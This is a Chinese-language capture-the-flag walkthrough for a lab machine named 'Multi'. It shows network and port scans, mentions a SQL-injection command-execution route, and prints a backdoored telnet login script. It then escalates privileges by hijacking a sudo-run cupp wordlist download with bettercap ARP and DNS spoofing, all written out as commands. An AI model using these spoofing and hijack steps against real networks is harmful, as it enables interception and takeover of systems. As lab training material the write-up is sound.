## 网段扫描
```
root@LingMj:~/xxoo# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:d1:27:55, IPv4: 192.168.137.190
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.137.4	a0:78:17:62:e5:0a	Apple, Inc.
192.168.137.1	3e:21:9c:12:bd:a3	(Unknown: locally administered)
192.168.137.139	3e:21:9c:12:bd:a3	(Unknown: locally administered)
192.168.137.132	2e:5c:af:d4:ea:c8	(Unknown: locally administered)
192.168.137.12	62:2f:e8:e4:77:5d	(Unknown: locally administered)

9 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.055 seconds (124.57 hosts/sec). 5 responded
```

## 端口扫描

```
root@LingMj:~/xxoo# nmap -p- -sC -sV 192.168.137.139
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-22 04:51 EDT
Nmap scan report for Multi.mshome.net (192.168.137.139)
Host is up (0.0052s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 3.0.3
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ftp-server/organizationName=MyOrganization/stateOrProvinceName=Beijing/countryName=CN
| Not valid before: 2025-07-17T11:34:00
|_Not valid after:  2035-07-15T11:34:00
22/tcp    open  ssh         OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA)
|   256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA)
|_  256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519)
23/tcp    open  telnet      Linux telnetd
80/tcp    open  http        Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Apache2 Debian Default Page: It works
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      33340/udp6  mountd
|   100005  1,2,3      35479/tcp6  mountd
|   100005  1,2,3      41673/tcp   mountd
|   100005  1,2,3      46963/udp   mountd
|   100021  1,3,4      33039/udp   nlockmgr
|   100021  1,3,4      36771/tcp6  nlockmgr
|   100021  1,3,4      38968/udp6  nlockmgr
|   100021  1,3,4      46471/tcp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp   open  netbios-ssn Samba smbd 4
445/tcp   open  netbios-ssn Samba smbd 4
2049/tcp  open  nfs         3-4 (RPC #100003)
3306/tcp  open  mysql       MariaDB 10.3.23 or earlier (unauthorized)
28080/tcp open  http        Werkzeug httpd 3.1.3 (Python 3.9.2)
|_http-server-header: Werkzeug/3.1.3 Python/3.9.2
|_http-title: Admin Panel
41673/tcp open  mountd      1-3 (RPC #100005)
44349/tcp open  mountd      1-3 (RPC #100005)
46471/tcp open  nlockmgr    1-4 (RPC #100021)
59035/tcp open  mountd      1-3 (RPC #100005)
MAC Address: 3E:21:9C:12:BD:A3 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-07-22T08:51:21
|_  start_date: N/A
|_nbstat: NetBIOS name: MULTI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.61 seconds
```

## 获取webshell

  
  
  
  
  

>这个地方有点意思
>

  
  

>因为我看存在mysql所以第一个尝试sql注入
>

  
  

>不过呢不是mysql，所以我无法直接sqlmap进行注入os-shell，但是还是有方案的。网站地址：https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767
>

  
  

>当然我疯狂尝试了一下
>

  
  
  

>这里提示我没shell就很奇怪奥，所以我直接进行了简单的数据库查找，发现是users
>

  

>这里说明了一个问题就是表必须存在
>

  

>这里还是报错需要继续看看原因
>

  
  

>这样就能拿到shell了
>

## 提权

  

>可以看的很多数据库，具有迷惑信我一开始以为是这些数据库中一个
>

  

>这里可以看到有些奇怪的东西
>

```
#!/bin/bash

printf "Username: \r\n"
read -r username
username=$(echo "$username" | tr -d '\r\n' | tr -s ' ')

if [[ -z "$username" ]]; then
    printf "invalid username\r\n"
    sleep 1
    exit 1
fi

printf "Password: \r\n"
read -s -r password
password=$(echo "$password" | tr -d '\r\n')

if [[ "$username" == "xiao" ]] && [[ -z "$password" ]]; then
    if grep -q "ENABLE_BACKDOOR" /etc/default/telnet 2>/dev/null; then
        printf "login successful\r\n"
        exec /bin/login -f xiao
        exit 0
    else
        printf "backdoor disabled\r\n"
        sleep 1
        exit 1
    fi
fi

if [[ "$username" == "xiao" ]] && [[ -n "$password" ]]; then
    printf "invalid password\r\n"
    sleep 1
    exit 1
fi

printf "login failed\r\n"
sleep 1
exit 1
```

>我们发现telnet登录xiao
>

  

>密码为空
>

  

>这个是xiao这个用户组的所以先拿xiao这个用户看
>

  

>但是它是一个www-data用户的查看权限
>

  

>可以直接网页上看，所以存在一个问题是如果我没拿到xiao其实也可以读取这个问题然后进行密码认证，这个是todd用户的密码
>

  

>这里有sudo了
>

```
todd@Multi:~$ sudo /usr/bin/cupp --help
usage: cupp [-h] [-i | -w FILENAME | -l | -a | -v] [-q]

Common User Passwords Profiler

optional arguments:
  -h, --help         show this help message and exit
  -i, --interactive  Interactive questions for user password profiling
  -w FILENAME        Use this option to improve existing dictionary, or WyD.pl output to make some pwnsauce
  -l                 Download huge wordlists from repository
  -a                 Parse default usernames and passwords directly from Alecto DB. Project Alecto uses purified databases of Phenoelit and CIRT which were merged and enhanced
  -v, --version      Show the version of this program.
  -q, --quiet        Quiet mode (don't print banner)
```

>这里看了一圈其实唯一能利用的是-l这个参数
>

```
todd@Multi:~$ sudo /usr/bin/cupp -l
 ___________ 
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\   
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]

	
	Choose the section you want to download:

     1   Moby            14      french          27      places
     2   afrikaans       15      german          28      polish
     3   american        16      hindi           29      random
     4   aussie          17      hungarian       30      religion
     5   chinese         18      italian         31      russian
     6   computer        19      japanese        32      science
     7   croatian        20      latin           33      spanish
     8   czech           21      literature      34      swahili
     9   danish          22      movieTV         35      swedish
    10   databases       23      music           36      turkish
    11   dictionaries    24      names           37      yiddish
    12   dutch           25      net             38      exit program
    13   finnish         26      norwegian       

	
	Files will be downloaded from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/ repository
	
	Tip: After downloading wordlist, you can improve it with -w option

> Enter number: 1
[+] Downloading dictionaries/Moby/mhyph.tar.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/Moby/mhyph.tar.gz ... 
^CTraceback (most recent call last):
  File "/usr/bin/cupp", line 1078, in <module>
    main()
  File "/usr/bin/cupp", line 1024, in main
    download_wordlist()
  File "/usr/bin/cupp", line 782, in download_wordlist
    download_wordlist_http(filedown)
  File "/usr/bin/cupp", line 993, in download_wordlist_http
    download_http(url, tgt)
  File "/usr/bin/cupp", line 698, in download_http
    localFile.write(webFile.read())
  File "/usr/lib/python3.9/http/client.py", line 471, in read
    s = self._safe_read(self.length)
  File "/usr/lib/python3.9/http/client.py", line 612, in _safe_read
    data = self.fp.read(amt)
  File "/usr/lib/python3.9/socket.py", line 704, in readinto
    return self._sock.recv_into(b)
KeyboardInterrupt
```

>可以看到他会去下载到本地，我们只需要劫持这个地方即可
>

  
  
  

>然后先了解本地目录加上一个软连接即可，现在需要修改成自己的
>

  

>一切准备就绪
>

  

>这里看到hosts不允许更改，所以我们得使用arp欺骗奥。
>

  

```
root@LingMj:~/xxoo# bettercap -iface eth0
bettercap v2.33.0 (built for linux arm64 with go1.22.6) [type 'help' for a list of commands]

192.168.137.0/24 > 192.168.137.190  » [06:50:01] [sys.log] [inf] gateway monitor started ...
192.168.137.0/24 > 192.168.137.190  » set dns.spoof.domains ftp.funet.fi
192.168.137.0/24 > 192.168.137.190  » set dns.spoof.address 192.168.137.190
192.168.137.0/24 > 192.168.137.190  » set arp.spoof.targets 192.168.137.139
192.168.137.0/24 > 192.168.137.190  » dns.spoof on
[06:51:37] [sys.log] [inf] dns.spoof ftp.funet.fi -> 192.168.137.190
[06:51:37] [sys.log] [inf] dns.spoof starting net.recon as a requirement for dns.spoof
192.168.137.0/24 > 192.168.137.190  » [06:51:37] [endpoint.new] endpoint 192.168.137.4 detected as a0:78:17:62:e5:0a (Apple, Inc.).
192.168.137.0/24 > 192.168.137.190  » arp.spoof on
192.168.137.0/24 > 192.168.137.190  » [06:51:57] [sys.log] [inf] arp.spoof arp spoofer started, probing 1 targets.
```

>有时我老忘arp欺骗
>

  

>可以看到已经欺骗了
>

```
 ___________ 
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\   
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]

	
	Choose the section you want to download:

     1   Moby            14      french          27      places
     2   afrikaans       15      german          28      polish
     3   american        16      hindi           29      random
     4   aussie          17      hungarian       30      religion
     5   chinese         18      italian         31      russian
     6   computer        19      japanese        32      science
     7   croatian        20      latin           33      spanish
     8   czech           21      literature      34      swahili
     9   danish          22      movieTV         35      swedish
    10   databases       23      music           36      turkish
    11   dictionaries    24      names           37      yiddish
    12   dutch           25      net             38      exit program
    13   finnish         26      norwegian       

	
	Files will be downloaded from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/ repository
	
	Tip: After downloading wordlist, you can improve it with -w option

> Enter number: 1
[+] Downloading dictionaries/Moby/mhyph.tar.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/Moby/mhyph.tar.gz ... 
[+] Downloading dictionaries/Moby/mlang.tar.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/Moby/mlang.tar.gz ... 
Traceback (most recent call last):
  File "/usr/bin/cupp", line 1078, in <module>
    main()
  File "/usr/bin/cupp", line 1024, in main
    download_wordlist()
  File "/usr/bin/cupp", line 782, in download_wordlist
    download_wordlist_http(filedown)
  File "/usr/bin/cupp", line 993, in download_wordlist_http
    download_http(url, tgt)
  File "/usr/bin/cupp", line 696, in download_http
    webFile = urllib.request.urlopen(url)
  File "/usr/lib/python3.9/urllib/request.py", line 214, in urlopen
    return opener.open(url, data, timeout)
  File "/usr/lib/python3.9/urllib/request.py", line 523, in open
    response = meth(req, response)
  File "/usr/lib/python3.9/urllib/request.py", line 632, in http_response
    response = self.parent.error(
  File "/usr/lib/python3.9/urllib/request.py", line 561, in error
    return self._call_chain(*args)
  File "/usr/lib/python3.9/urllib/request.py", line 494, in _call_chain
    result = func(*args)
  File "/usr/lib/python3.9/urllib/request.py", line 641, in http_error_default
    raise HTTPError(req.full_url, code, msg, hdrs, fp)
urllib.error.HTTPError: HTTP Error 404: File not found
```

>不出意外已经报错了
>

  

>但是已经进去了
>

  

>结束整体还是有点难度
>

>userflag:
>
>rootflag:
>